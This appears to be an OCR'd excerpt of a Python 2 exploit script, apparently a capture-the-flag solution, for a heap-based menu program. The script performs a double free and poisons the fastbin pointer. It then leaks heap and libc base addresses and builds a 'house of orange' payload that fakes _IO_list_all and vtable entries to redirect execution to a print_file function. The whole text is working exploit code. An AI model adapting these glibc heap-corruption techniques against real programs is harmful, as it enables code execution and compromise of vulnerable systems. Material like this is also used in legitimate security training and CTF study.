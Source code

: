 ```python
data = flush()
# Note: leak2addr will FAIL if our HEAPBASE happens to have a NULL byte in it.
# If so, we can just run again.
HEAPBASE = leak2addr(data.split('\n')[1][:-1]) - 0x10
print "=== LEAKED HEAPBASE: {0} ===".format(hex(HEAPBASE))

# Put the contents of m1 into name, including our smallbin chunk and the chunk
# above as well as a chunk in between to pass the corruption checks.
rename(payload1)

# Continue the double free
buy("", SZ)
buy("", SZ)
eat(0)
eat(1)
eat(0)
# Poison the fastbin fd pointer
buy(p64(RETME),SZ)
buy("",SZ)
# (We will use this chunk (at HEAPBASE + 0x10) later)
buy(p64(PRINT_FILE)*5,SZ)
# This malloc will now give us the chunk at RETME, so we can write the address
# of our smallbin chunk into creams[0].
buy(p64(SMALLBIN),SZ)

# Free the fake smallbin chunk
eat(0)

# Leak libc with rename. We fill the first 16 bytes with non-NULL because the
# libc address begins at byte 17
flush()
rename("AAAABBBBCCCCDDD")
data = flush()

# Calculate critical offsets
LEAKED = leak2addr(data.split('\n')[1][:-1])
LIBC_BASE = LEAKED - 0x3a4438
IOLISTALL = LIBC_BASE + 0x3a4de0
print "=== LEAKED LIBC: {0} ===".format(hex(LIBC_BASE))
print "=== _IO_list_all: [{0}] ===".format(hex(IOLISTALL))

# Set up house of orange exploit. Our vtables address will point to the chunk we
# allocated earlier (at HEAPBASE + 0x10), which we filled with the address of
# print_file.
m2 = """
0x602040:    0x7478742e67616c66    0x0000000000000100
0x602050:    0x0000000000000000    {0}
0x602060:    0x0000000000000000    0x0000000000000061
0x602070:    0x0000000000000000    0x0000000000000000
0x602080:    0x0000000000000000    0x0000000000000000
0x602090:    0x0000000000000000    0x0000000000000000
0x6020a0:    0x0000000000000000    0x0000000000000000
0x6020b0:    0x0000000000000000    0x0000000000000000
0x6020c0:    0x0000000000000000    0x0000000000000000
0x6020d0:    0x0000000000000000    0x0000000000000000
0x6020e0:    0x0000000000000000    0x0000000000000000
0x6020f0:    0x0000000000000000    0x0000000000000000
0x602100:    0x0000000000000000    0x0000000000000061
0x602110:    0x0000000000000000    {1}
0x602120:    0x0000000000000000    0x0000000000000000
0x602130:    0x0000000000000000    0x0000000000000000
""".format(hex(IOLISTALL-16), hex(HEAPBASE+0x10))
payload2 = str2payload(m2)[:-1]
```